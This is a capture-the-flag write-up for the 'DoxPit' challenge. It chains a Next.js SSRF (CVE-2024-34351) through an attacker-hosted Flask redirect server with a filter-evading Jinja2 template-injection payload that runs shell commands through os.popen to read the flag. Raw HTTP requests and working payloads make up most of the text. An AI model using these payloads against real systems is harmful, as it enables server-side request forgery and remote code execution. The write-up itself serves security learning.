 # Challenge: DoxPit
# Rate: Medium

The WebApp is using Next.js version 14.1.0 which has [CVE-2024-34351](https://www.assetnote.io/resources/research/advisory-next-js-ssrf-cve-2024-34351).

![nextjs.png](nextjs.png)

So we can perform an SSRF attack.

```
POST / HTTP/1.1
Host: attacker.com
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

If we analyze the source code, there are two projects that exist in the folder. The `av` is written with Flask and is only accessible from local.

![flask.png](flask.png)

Examining more of this project we can see some routes: `/`, `/home`, `/register`, `/login`, `/logout`

- `routes.py`:
    
    ```python
    # more ...
    
    def auth_middleware(func):
      def check_user(*args, **kwargs):
        db_session = Database()
    
        if not session.get("loggedin"):
          if request.args.get("token") and db_session.check_token(request.args.get("token")):
            return func(*args, **kwargs)
          else:
            return redirect("/login")
    
        return func(*args, **kwargs)
    
      check_user.__name__ = func.__name__
      return check_user
      
    
    @web.route("/", methods=["GET"])
    def index():
      return redirect("/home")
      
    # more ...
    
    @web.route("/login", methods=["GET"])
    def login():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ...
    
    @web.route("/register", methods=["GET"])
    def register():
      username = request.args.get("username")
      password = request.args.get("password")
      
    # more ... 
    ```
    

Now after examining the detailed [exploit of CVE-2024-34351](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps), we are able to send a request to the Flask web app by the below scenario:

1. `flaskRedirect.py`
    
    ```python
    from flask import Flask, Response, request, redirect
    app = Flask(__name__)
    
    @app.route('/', defaults={'path': ''})
    @app.route('/<path:path>')
    def catch(path):
        if request.method == 'HEAD':
            resp = Response("")
            resp.headers['Content-Type'] = 'text/x-component'
            return resp
        return redirect('http://0.0.0.0:3000/register?username=new&password=new')
    
    app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
    ```
    
2. Host the `flaskRedirect.py` on your controlled server.
3. Send this request:
    
    ```
    POST / HTTP/1.1
    Host: yourserver.com:1234
    Content-Length: 2
    Accept: text/x-component
    Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
    Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
    Accept-Encoding: gzip, deflate, br
    Accept-Language: en-US,en;q=0.9
    Connection: keep-alive
    
    []
    ```
    

After sending this request a user is created for you. Here is the response of the Web App:

![token.png](token.png)

Now we have the token and have access to all routes.

![directory1.png](directory1.png)

![directory2.png](directory2.png)

As we can see the code is loading files using Jinja templates. so we can try SSTI.

![invalid-chars.png](invalid-chars.png)

But here’s the thing. There are some preventions in these files that limit us from performing SSTI attacks. So we can not use `{{`, `}}`, `.`, `_`, `[`, `]`, `\`, `x` in our payload.

Looking at common payloads in [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), we can easily find this payload:

```python
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
```

The only problem with the above payload is it uses `\` but we can not use it because it’s forbidden.

If we research about different payload structures in Jinja, we can find these things that work:

```python
{%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*
```

Now modify `flaskRedirect.py` again:

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://0.0.0.0:3000/home?token=56021495728f15002281f3999bb6f204&directory={%with a=((((request|attr("application"))|attr(request|attr("args")|attr("get")("globals")))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("builtins"))|attr(request|attr("args")|attr("get")("getitem")))(request|attr("args")|attr("get")("import"))("os")|attr("popen")(request|attr("args")|attr("get")("cmd"))|attr("read")()%}{%print(a)%}{%endwith%}&globals=__globals__&getitem=__getitem__&builtins=__builtins__&import=__import__&cmd=cat /flag*')

app.run(host="0.0.0.0", port=1234, threaded=True, debug=True)
```

Send the request again:

```
POST / HTTP/1.1
Host: yourserver.com:1234
Content-Length: 2
Accept: text/x-component
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

[]
```

And get the Flag:

![flag.png](flag.png)
